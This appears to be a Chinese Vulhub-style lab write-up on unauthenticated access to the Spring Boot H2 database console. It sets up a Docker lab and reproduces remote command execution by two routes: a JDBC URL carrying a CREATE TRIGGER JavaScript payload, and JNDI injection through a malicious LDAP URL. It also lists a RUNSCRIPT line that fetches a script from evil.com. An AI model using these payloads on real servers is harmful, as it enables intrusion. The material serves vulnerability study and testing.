 # H2 数据库 Web 控制台未授权访问

H2数据库是一个Java的嵌入式内存数据库。当Spring Boot配合H2数据库使用时，如果设置了以下选项，其自带的Web管理页面将可以被外部访问，且没有用户验证：

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

这个管理页面支持使用JNDI加载JDBC驱动，攻击者可以利用JDBC攻击或JNDI注入来执行任意命令。

参考链接：

- <https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html>
- <https://mp.weixin.qq.com/s?__biz=MzI2NTM1MjQ3OA==&mid=2247483658&idx=1&sn=584710da0fbe56c1246755147bcec48e>
- <https://www.exploit-db.com/exploits/45506>
- <https://github.com/h2database/h2database/pull/1580>
- <https://github.com/h2database/h2database/pull/1726>
- <https://github.com/h2database/h2database/issues/1225>

## 环境搭建

启动一个带有H2数据库和内嵌Tomcat的Spring Boot应用：

```
docker compose up -d
```

容器启动后，Spring Boot应用将监听在`http://your-ip:8080`，默认情况下管理页面地址为`http://your-ip:8080/h2-console/`。

## 漏洞复现

这个漏洞有两种利用方式，一种是[JDBC攻击](https://su18.org/post/jdbc-connection-url-attack/)，另一种是[JNDI注入](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)。

### JDBC攻击

H2控制台允许用户指定任意JDBC URL。通过指定`jdbc:h2:mem:testdb`并使用JDBC的`init`属性，我们可以在本地内存服务器中执行任意SQL语句。

H2数据库支持一些特殊且危险的命令，例如：

- `RUNSCRIPT FROM 'http://evil.com/script.sql'`
- `CREATE ALIAS func AS code ...; CALL func ...`
- `CREATE TRIGGER ... AS code ...`

我们可以使用`CREATE TRIGGER`构造恶意SQL语句，然后将其放入JDBC URL中：

```
jdbc:h2:mem:testdb;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
    var is = java.lang.Runtime.getRuntime().exec("id").getInputStream()
    var scanner = new java.util.Scanner(is).useDelimiter("\\A")
    throw new java.lang.Exception(scanner.next())
$$;
```

在H2控制台中点击"Test Connection"并捕获请求，然后修改请求中的JDBC URL即可成功执行`id`命令。

![](1.png)

### JNDI注入

1.4.198版本及以后的H2控制台中，添加了新的[`-ifNotExists`选项](https://github.com/h2database/h2database/pull/1726)，默认禁用远程数据库创建，这将导致攻击者必须找到一个已存在的H2数据库才能执行上述JDBC攻击。

如果无法找到合适的H2数据库，我们也可以利用JNDI注入来执行任意命令。这里使用[JNDIExploit](https://github.com/vulhub/JNDIExploit)工具来利用这个漏洞。

启动`JNDIExploit`并根据项目文档中给出的信息来填写表单：

![](2.png)

`javax.naming.InitialContext`是JNDI工厂类名，URL `ldap://172.17.0.1:1389/TomcatBypass/Command/Base64/dG91Y2ggL3RtcC9zdWNjZXNz`是恶意JNDI URL。

点击“Test Connection”后，恶意JNDI服务器收到请求：

![](3.png)

可见，`touch /tmp/success`命令已经成功执行：

![](4.png)
